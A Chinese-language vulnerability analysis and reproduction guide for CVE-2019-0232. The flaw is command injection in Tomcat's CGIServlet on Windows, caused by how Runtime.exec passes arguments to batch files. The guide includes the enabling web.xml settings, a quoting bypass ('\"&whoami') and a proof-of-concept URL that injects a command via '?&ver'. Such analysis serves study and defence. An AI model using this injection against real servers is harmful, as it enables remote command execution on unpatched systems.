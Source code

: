 # （CVE-2019-0232）Tomcat rce

> 原文：[http://book.iwonder.run/0day/Tomcat/CVE-2019-0232.html](http://book.iwonder.run/0day/Tomcat/CVE-2019-0232.html)

## 一、漏洞简介

该漏洞是由于 Tomcat CGI 将命令行参数传递给 Windows 程序的方式存在错误，使得 CGIServlet 被命令注入影响。

该漏洞只影响 Windows 平台，要求启用了 CGIServlet 和 enableCmdLineArguments 参数。但是 CGIServlet 和 enableCmdLineArguments 参数默认情况下都不启用。

## 二、漏洞影响

Apache Tomcat 9.0.0.M1 to 9.0.17

Apache Tomcat 8.5.0 to 8.5.39

Apache Tomcat 7.0.0 to 7.0.93

## 三、复现过程

### 漏洞分析

漏洞相关的代码在 `tomcat\java\org\apache\catalina\servlets\CGIServlet.java` 中，CGIServlet 提供了一个 cgi 的调用接口，在启用 `enableCmdLineArguments` 参数时，会根据 RFC 3875 来从 Url 参数中生成命令行参数，并把参数传递至 Java 的 `Runtime` 执行。 这个漏洞是因为 `Runtime.getRuntime().exec` 在 Windows 中和 Linux 中底层实现不同导致的。下面以一个简单的 case 来说明这个问题，在 Windows 下创建 arg.bat：

```
rem arg.bat
echo %* 
```

并执行如下的 Java 代码

```
String [] cmd={"arg.bat", "arg", "&", "dir"};
Runtime.getRuntime().exec(cmd); 
```

在 Windows 下会输出 `arg` 和 `dir` 命令运行后的结果。同样的，用类似的脚本在 Linux 环境下测试：

```
# arg.sh
for key in "$@"
do
    echo '$@' $key
done
String [] cmd={"arg.sh", "arg", "&", "dir"};
Runtime.getRuntime().exec(cmd); 
```

此时的输出为

```
$@ arg
$@ &
$@ dir 
```

导致这种输出的原因是在 JDK 的实现中 `Runtime.getRuntime().exec` 实际调用了 `ProcessBuilder` ，而后 `ProcessBuilder` 调用 `ProcessImpl`使用系统调用 `vfork` ，把所有参数直接传递至 `execve`。

用 `strace -F -e vfork,execve java Main` 跟踪可以看到上面的 Java 代码在 Linux 中调用为

```
execve("arg.sh", ["arg.sh", "arg", "&", "dir"], [/* 23 vars */]) 
```

而如果跟踪类似的 PHP 代码 `system('a.sh arg & dir');` ，得到的结果为

```
execve("/bin/sh",  ["sh", "-c", "a.sh arg & dir"], [/* 23 vars */]) 
```

所以 Java 的 `Runtime.getRuntime().exec` 在 CGI 调用这种情况下很难有命令注入。而 Windows 中创建进程使用的是 `CreateProcess` ，会将参数合并成字符串，作为 `lpComandLine` 传入 `CreateProcess` 。程序启动后调用 `GetCommandLine` 获取参数，并调用 `CommandLineToArgvW` 传至 argv。在 Windows 中，当 `CreateProcess` 中的参数为 bat 文件或是 cmd 文件时，会调用 `cmd.exe` , 故最后会变成 `cmd.exe /c "arg.bat & dir"`，而 Java 的调用过程并没有做任何的转义，所以在 Windows 下会存在漏洞。

除此之外，Windows 在处理参数方面还有一个特性，如果这里只加上简单的转义还是可能被绕过， 例如 `dir "\"&whoami"` 在 Linux 中是安全的，而在 Windows 会执行命令。

这是因为 Windows 在处理命令行参数时，会将 `"` 中的内容拷贝为下一个参数，直到命令行结束或者遇到下一个 `"` ，但是对 `\"` 的处理有误。同样用 `arg.bat` 做测试，可以发现这里只输出了 `\` 。因此在 Java 中调用批处理或者 cmd 文件时，需要做合适的参数检查才能避免漏洞出现。

### 漏洞复现

笔者使用的复现环境为 9.0.12 + JRE 1.8.0。

首先进行 CGI 相关的配置，在 `conf/web.xml` 中启用 CGIServlet：

```
<servlet>
    <servlet-name>cgi</servlet-name>
    <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
    <init-param>
      <param-name>cgiPathPrefix</param-name>
      <param-value>WEB-INF/cgi-bin</param-value>
    </init-param>
    <init-param>
      <param-name>enableCmdLineArguments</param-name>
      <param-value>true</param-value>
    </init-param>
    <init-param>
      <param-name>executable</param-name>
      <param-value></param-value>
    </init-param>
    <load-on-startup>5</load-on-startup>
</servlet> 
```

这里主要的设置是 `enableCmdLineArguments` 和 `executable` 两个选项。 `enableCmdLineArguments` 启用后才会将 Url 中的参数传递到命令行， `executable` 指定了执行的二进制文件，默认是 `perl`，需要置为空才会执行文件本身。

同样在 `conf/web.xml` 中启用 cgi 的 servlet-mapping

```
<servlet-mapping>
    <servlet-name>cgi</servlet-name>
    <url-pattern>/cgi-bin/*</url-pattern>
</servlet-mapping> 
```

之后修改 `conf/context.xml` 的 `` 添加`privileged="true"`属性，否则会没有权限

```
<Context privileged="true">

    <!-- Default set of monitored resources. If one of these changes, the    -->
    <!-- web application will be reloaded.                                   -->
    <WatchedResource>WEB-INF/web.xml</WatchedResource>
    <WatchedResource>WEB-INF/tomcat-web.xml</WatchedResource>
    <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>

    <!-- Uncomment this to disable session persistence across Tomcat restarts -->
    <!--
    <Manager pathname="" />
    -->
</Context> 
```

然后在 `ROOT\WEB-INF` 下创建 `cgi-bin` 目录, 并在该目录下创建一个内容为 `echo Content-type: text/html` 的 `e.bat` 文件。

配置完成后，启动 tomcat，访问 `http://0-sec.org:8080/cgi-bin/e.bat?&ver` ，可以看到命令执行成功。

## 参考链接

> [https://xz.aliyun.com/t/4875](https://xz.aliyun.com/t/4875)


